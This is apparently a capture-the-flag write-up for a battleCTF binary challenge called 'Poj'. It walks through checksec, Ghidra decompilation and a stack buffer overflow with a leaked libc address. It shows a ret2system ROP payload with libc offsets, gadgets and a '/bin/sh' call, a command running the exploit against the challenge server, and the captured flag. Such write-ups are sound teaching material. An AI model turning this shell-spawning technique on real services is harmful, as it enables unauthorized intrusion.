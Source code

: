 # challenge Name: Prog
![Poj_challenge](../images/poj.png)


In this challenge, we are given a binary file with a dinamyc linker/loader

1. # first step: let analyse the prog security
``` pwn checkseck poj ```

    ![Poj_challenge](../images/checksec_poj.png)
    ## No cannary found. 

 not that we need libc.so.6 file in the current directory in order to run pob binary

 2. # second step: understand how the prog work

    ![Poj_challenge](../images/poj_exec1.png)
     we have memory leak of write address

    # reverse engineering the program
after decompiled the prog with ghidra, we can know that the main function  print write address and call vuln_func.

vuln function read 0x100 byte on local array of length 64 so we have a BOF.

# main function
    ![main_function](../images/main_func_poj.png)

# vuln_function
    ![vuln_function](../images/vuln_func_poj.png)


3. # exploit the BOF:
    as the prog don't have Cannary and we also have address leak,   we can  exploit  the buffer overflow to make ``ret2system`` 
    1. found offset
    ![found bof offse](../images/found_offset1_poj.png)
    ![found bof offset](../images/found_offset2_poj.png)
    
    2. found useful function address /bin/sh string and gdget  on the libc 
    ```
 # libc.so.6 write = 0xff4d0
libc_write = 0xff4d0  # readelf -s libc.so.6 | grep write 
libc_system  = 0x000000000004dab0  # readelf -s libc.so.6 | grep system 
libc_bin_sh = 0x197e34 # strings -t x libc.so.6 | grep "/bin/sh"
pop_rdi_offset =  0x0000000000028215 # found with ropper 
ret_offset =  0x00000000000f35d8 # found with ropper

# Now calculate the PIEBASE
libc_addr = leaked_addr - libc_write 
sys_addr = libc_addr + libc_system
bin_sh = libc_addr + libc_bin_sh
pop_rdi = pop_rdi_offset + libc_addr
ret_addr = ret_offset + libc_addr

payload = flat({
    offset:[
        pop_rdi,
        bin_sh,
        ret_addr,
        sys_addr
        ]
})
```

# see the complet exploit:
```
python3 poj_exploi.py  REMOTE challenge.bugpwn.com 1003
b
```
    ![found bof offset](../images/exploit_poj.png)
and we get the flag: battleCTF{Libc_J0P_b4s1c_000_bc8a769d91ae062911c32829608e7d547a3f54bd18c7a7c2f5cc52bd} 

    
@Top0n3
